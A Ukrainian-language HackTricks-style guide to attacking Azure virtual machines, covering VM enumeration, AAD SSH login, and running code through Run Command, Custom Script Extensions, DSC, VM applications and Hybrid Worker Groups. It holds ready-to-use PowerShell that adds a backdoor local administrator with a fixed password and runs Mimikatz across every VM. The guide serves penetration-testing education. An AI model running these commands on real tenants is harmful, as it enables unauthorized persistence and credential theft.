 # Az - Віртуальні машини та мережа

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

## Основна інформація

[З документації:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Віртуальні машини Azure є одним з кількох типів [ресурсів обчислення за запитом, що масштабується](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree), які пропонує Azure. Зазвичай ви обираєте віртуальну машину, коли вам потрібен більший контроль над обчислювальним середовищем, ніж пропонують інші варіанти. Ця стаття надає інформацію про те, що слід врахувати перед створенням віртуальної машини, як її створити та як нею керувати.

## Інформація про мережу Azure

Мережі Azure містять **різні сутності та способи їх налаштування.** Ви можете знайти короткі **описи,** **приклади** та **команди перерахування** різних сутностей мережі Azure в:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** пропонує безпечне, повністю кероване рішення для доступу RDP (протокол віддаленого робочого столу) та SSH (захищена оболонка) через SSL через портал Azure. Він інтегрований у віртуальну мережу Azure, що дозволяє підключення RDP та SSH до ВМ, використовуючи приватні IP-адреси, уникаючи необхідності в публічних IP-адресах. Це робить його більш безпечним і зручним альтернативним варіантом традиційних методів, що включають призначення публічних IP-адрес і налаштування правил NSG для доступу до ВМ. Розробники та IT-персонал можуть безпечно отримувати доступ до ВМ з порталу Azure, використовуючи свої веб-браузери, спрощуючи процес для середовищ розробки та тестування.

Щоб перерахувати всі хости Azure Bastion у вашій підписці, ви можете використовувати наступну команду:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Перерахунок ВМ
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Запуск команд у VM**

### **AAD вхід у VM**

Можливо дозволити доступ користувачам, автентифікованим через AzureAD. Наприклад, намагаючись отримати доступ до **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (важливо **використовувати електронну пошту** з azurecorp, коли намагаєтеся увійти) ви можете отримати помилку, як: 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Просто **дотримуйтесь цих інструкцій**, перейшовши на [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) та вказавши код, використовуйте електронну пошту та пароль як облікові дані, і ви зможете підключитися через SSH (якщо у цього користувача достатньо прав для цього: роль `Virtual Machine Administrator Login` або `Virtual Machine User Login`).

### **Запустити команду**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Запустіть розширення користувацького скрипта**

Azure віртуальні машини (VM) розширення - це **невеликі програми**, які забезпечують конфігурацію після розгортання та автоматизацію **завдань** на **Azure VMs**. Наприклад, якщо віртуальна машина потребує встановлення програмного забезпечення, антивірусного захисту або можливості виконувати скрипт всередині, ви можете використовувати розширення VM.

Отже, якщо у вас є доступ для запису, ви можете виконувати довільний код:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) - це інструмент PowerShell, подібний до Ansible, який використовується для налаштування хоста через код. DSC інтегрується з Azure, дозволяючи завантаження специфічних конфігураційних файлів. Ці файли повинні відповідати строгому синтаксису. Зокрема, розширення DSC в Azure може виконувати команди з файлів, які відповідають певним критеріям форматування, навіть якщо синтаксис не є правильним за стандартами DSC, як показано на наданій фігурі.

Виконання цих команд полегшується функцією [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) в Az PowerShell. Вимоги включають файл **.PS1** з визначеною функцією, і файл повинен бути стиснутий у файл **.zip**. Навіть якщо синтаксис може бути неточним для DSC, код все ще буде виконуватись. Однак розширення позначить статус виконання як "невдача", і жоден вихід з команди не буде видимим через те, що статус буде перезаписаний повідомленням про невдачу.

### VM Application Definitions

VM Application Definitions дозволяють повторюване розгортання версійованих додатків на Azure VM. Цей ресурс підтримує розгортання та оновлення додатків на VMs. Щоб це налаштувати, потрібно виконати кілька кроків, що включають команди **`New-AzGalleryApplication`** та **`New-AzGalleryApplicationVersion`** в Az PowerShell.

Виконання додатків або команд через цей метод передбачає **"VMAppExtension"**, яка автоматично встановлюється, коли додаток застосовується до VM. Розширення отримує файл з вказаного URI і називає його точно так, як додаток, без розширення. Щоб правильно виконати файл, поле "ManageActions" у виклику REST API повинно бути налаштоване для перейменування файлу з відповідним розширенням. Налаштування цього методу, після завершення, буде нагадувати структуру, показану на наданій фігурі.

Однак цей метод виконання є відносно повільним, займаючи близько 3-4 хвилин для виконання додатка або команди. Файли, пов'язані з цим процесом, зберігаються в специфічних каталогах (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` для копії додатка та `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` для статусу виконання).

Обидві техніки надають унікальні способи виконання команд і розгортання додатків в Azure середовищах, кожна з яких має свій набір вимог, кроків і міркувань.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) - це функція в Azure, яка дозволяє Runbooks, налаштованим в обліковому записі автоматизації, виконуватись на Azure Virtual Machine (VM), яка є частиною призначеної HWG. Це виконання полегшується через розширення, встановлене на VM, яке розгортає код Runbook на VM. Важливим аспектом цього процесу є те, що фактичні облікові дані не є фактором у виконанні, оскільки код виконується з підвищеними привілеями, зокрема як **SYSTEM** або root, як показано на наданій фігурі.

Ключовою деталлю для тих, хто використовує Windows 10 VMs, є необхідність вказати версію PowerShell для Runbook. Вона повинна бути налаштована на виконання як PowerShell Version 5.1 замість 7.1. Ця вимога виникає з того, що PowerShell 7.1 не встановлено за замовчуванням на цих VMs, що призводить до невдачі виконання скрипту, якщо вказана версія 7.1.

Ця функція Azure пропонує надійний метод для автоматизації та управління завданнями в гібридних середовищах, дозволяючи централізоване управління та виконання завдань на Azure VMs.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

